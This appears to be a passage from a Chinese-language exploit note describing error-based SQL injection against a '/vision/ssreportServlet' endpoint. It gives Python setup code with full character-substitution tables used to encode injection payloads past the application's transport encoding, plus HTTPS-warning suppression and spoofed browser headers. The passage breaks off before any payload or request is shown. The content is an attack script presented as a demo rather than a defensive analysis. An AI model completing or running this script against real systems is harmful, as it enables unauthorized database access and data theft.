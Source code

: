 ### py 脚本 RMI 加密后注入

报错注入 demo：

```python
#coding=utf-8
import requests
from urllib.parse import quote,unquote
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

#去除https的warning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

ENCODING_SCHEDULE = {
    "0": "7", "1": "1", "2": "u", "3": "N", "4": "K", "5": "J", "6": "M", "7": "9", "8": "'", "9": "m", "!": "P",
    "%": "/", "'": "n", "(": "A", ")": "E", "*": "s", "+": "+", "-": "f", ".": "q", "A": "O", "B": "V", "C": "t",
    "D": "T", "E": "a", "F": "x", "G": "H", "H": "r", "I": "c", "J": "v", "K": "l", "L": "8", "M": "F", "N": "3",
    "O": "o", "P": "L", "Q": "Y", "R": "j", "S": "W", "T": "*", "U": "z", "V": "Z", "W": "!", "X": "B", "Y": ")",
    "Z": "U", "a": "(", "b": "~", "c": "i", "d": "h", "e": "p", "f": "_", "g": "-", "h": "I", "i": "R", "j": ".",
    "k": "G", "l": "S", "m": "d", "n": "6", "o": "w", "p": "5", "q": "0", "r": "4", "s": "D", "t": "k", "u": "Q",
    "v": "g", "w": "b", "x": "C", "y": "2", "z": "X", "~": "e", "_": "y",
}

DECODING_SCHEDULE = {
    "7": "0", "1": "1", "u": "2", "N": "3", "K": "4", "J": "5", "M": "6", "9": "7", "'": "8", "m": "9", "P": "!",
    "/": "%", "n": "'", "A": "(", "E": ")", "s": "*", "+": "+", "f": "-", "q": ".", "O": "A", "V": "B", "t": "C",
    "T": "D", "a": "E", "x": "F", "H": "G", "r": "H", "c": "I", "v": "J", "l": "K", "8": "L", "F": "M", "3": "N",
    "o": "O", "L": "P", "Y": "Q", "j": "R", "W": "S", "*": "T", "z": "U", "Z": "V", "!": "W", "B": "X", ")": "Y",
    "U": "Z", "(": "a", "~": "b", "i": "c", "h": "d", "p": "e", "_": "f", "-": "g", "I": "h", "R": "i", ".": "j",
    "G": "k", "S": "l", "d": "m", "6": "n", "w": "o", "5": "p", "0": "q", "4": "r", "D": "s", "k": "t", "Q": "u",
    "g": "v", "b": "w", "C": "x", "2": "y", "X": "z", "e": "~", "y": "_",
}

#此函数可以用来加密明文也可以解密服务器返回的密文
def encode(code):
    out = ""
    for item in code:
        out = out + ENCODING_SCHEDULE.get(item, item)
    return out

def decode(code):
    out = ""
    for item in code:
        out = out + DECODING_SCHEDULE.get(item, item)
    return out

url = "https://127.0.0.1/vision/ssreportServlet"

headers = {"User-Agent":"Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36",
           "Accept-Encoding":"gzip, deflate",
```